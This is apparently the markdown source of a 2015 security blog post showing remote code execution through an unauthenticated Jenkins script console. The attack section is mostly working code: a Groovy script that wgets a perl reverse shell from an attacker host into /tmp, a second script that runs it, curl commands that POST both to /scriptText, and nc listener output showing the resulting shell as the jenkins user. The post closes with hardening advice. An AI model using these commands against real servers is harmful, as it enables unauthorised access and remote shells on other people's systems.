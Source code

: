 ```yaml
---
layout: blog_item
title:  "Jenkins RCE via Unauthenticated API"
date:   2015-08-18 10:08:10
author: Arr0way
description: 'Jenkins RCE via Unauthenticated API, an attacker can execute shell commands via curl requests against the Jenkins API script console'
categories: [Exploit]
tags:
- Jenkins
- Exploit
- RCE
---
```


* list element with functor item                                                
 {:toc}

## Description:

[Jenkins](https://jenkins-ci.org/) (continuous intergration server) default install allows for unauthenticated access to the API on the Jenkins Master Server (default behavour). Allowing unauthenticated access to the groovy script console, allowing an attacker to execute shell commands and / or connect back with a reverse shell.

<div class="note warning">
  <h5>DISCLAIMER</h5>
  <p>Disclaimer, I didn't discover this exploit, it has been discovered before... This vulnerability has been disclosed before to the Jenkins CI developers, who do <b>not consider it a vulnerability</b>.</p>
</div>


![Jenkins RCE API Exploit](https://i.imgur.com/lTas7UD.gif)

## Tested Versions

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Software</th>
      <th>Version</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>Jenkins</code></p>
      </td>
      <td>
            <p>Ver 1.626</p>
      </td>
       </tr>
      <tr>
      <td>
        <p><code>Jenkins</code></p>
      </td>
      <td>
            <p>Ver 1.638</p>
      </td>
      </tr>

      </tbody>
</table>
</div>

## Tested Operating Systems

An effort to test all affected OS's, showing the severity of the exploit (e.g. jenkins shell) for the default OS packaged version.

<div>
<table>
  <thead>
    <tr>
      <th>Operating System</th>
      <th>Default Package Expoit</th>
    </tr>
  </thead>
      <tbody>
      <tr>
      <td>
        <p><code>CentOS 6 - Jenkins RPM via Jenkins YUM Repo</code></p>
      </td>
      <td>
            <p>shell as user jenkins</p>
      </td>
      </tr>
      </tbody>
</table>
</div>

## Instructions

This is really basic, I made a few small groovy scripts to execute the shell commands I wanted via Jenkins API (I recall having some issues runing more than one command at a time via groovy), I then executed them using Curl.

### groovy script wget shell

Script to wget perl reverse shell to target and copy it to /tmp/shell.

{% highlight java %}
   def command = "wget http://192.168.145.128/perl-reverse-shell.pl -O /tmp/shell"
   def proc = command.execute()
   proc.waitFor()

   println "Process exit code: ${proc.exitValue()}"
   println "Std Err: ${proc.err.text}"
   println "Std Out: ${proc.in.text}"
{% endhighlight %}

<div class="note tip">
  <h5>Jenkins requires /tmp to have exec perms</h5>
  <p>By default Jenkins requires <code>/tmp</code> to have the execute mount option set, so you should be safe to land shells there on Jenkins servers.</p>
</div>


### groovy script execute shell command

{% highlight java %}
    def command = "perl /tmp/shell"
    def proc = command.execute()
    proc.waitFor()              

    println "Process exit code: ${proc.exitValue()}"
    println "Std Err: ${proc.err.text}"
    println "Std Out: ${proc.in.text}"
{% endhighlight %}

### Execute the Groovy Scripts via scriptText Jenkins API

{% highlight bash %}
curl -d "script=$(<./wget.groovy)" -X POST http://192.168.30.130:8080/scriptText
curl --data-urlencode  "script=$(<./execute.groovy)" -X POST http://192.168.30.130:8080/scriptText
{% endhighlight %}

### Get Shell

{% highlight bash %}
    [root:~/pwn-jenkins]# nc -v -n -l -p 443
    listening on [any] 443 ...
    connect to [192.168.30.128] from (UNKNOWN) [192.168.30.130] 42340
     21:16:17 up 15:17,  1 user,  load average: 0.23, 0.31, 0.17
     USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU WHAT
     root     tty1     -                05:59    3:40   0.12s  0.12s -bash
     Linux localhost.localdomain 2.6.32-573.3.1.el6.x86_64 #1 SMP Thu Aug 13 22:55:16 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     /
     apache: cannot set terminal process group (-1): Invalid argument
     apache: no job control in this shell
     apache-4.1$ whoami
     whoami
     jenkins
     apache-4.1$ id
     id
     uid=498(jenkins) gid=499(jenkins) groups=499(jenkins) context=unconfined_u:system_r:unconfined_java_t:s0
     apache-4.1$
{% endhighlight %}

<div class="note info">
  <h5>Jenkins Does Not Consider this a Vulnerability</h5>
  <p>Dispite the fact the web application is insecure by default (the default
  install leaves the API and webapp exposed without authentication), Jenkins do
  not consider this a vulnerability. Your best option is to configure
  authentication by following the <a href="https://wiki.jenkins-ci.org/display/JENKINS/Standard+Security+Setup">Securing Jenkinsi Guide</a></p>
</div>

## More info about Jenkins

Jenkins is a tool consisting of a master and a slave, the master server
schedules and runs jobs for the jenkins slaves to execute. The default
installation configures the master as a slave server, allowing anyone with access to the Jenkins master
to execute arbitrary code on the master (via the slave).

A more secure solution would be isolating the role of the master server.
Currently if a Jenkins master server is compromised, it's likely an attacker
will also be able to execute jobs / run shell scripts on the Jenkins slaves.

An additional ACL option within Matrix-based security to disable API, and
another for script
console / execution on the Jenkins Master would be a good idea. Currently the
only options is to disable all script access for the user/group, which appears to include the
slaves.

Be mindful of the fact that, by giving access to the slaves via the Jenkins Master,
you're essentially giving the user shell level access to the slave (or at least
the ability to execute shell commands on the slave machine).

## More Resources

More links about this vuln and similar Jenkins vulns below:

* [http://www.rapid7.com/db/modules/exploit/multi/http/jenkins_script_console](http://leonjza.github.io/blog/2015/05/26/jenkins-to-meterpreter-toying-with-powersploit/)
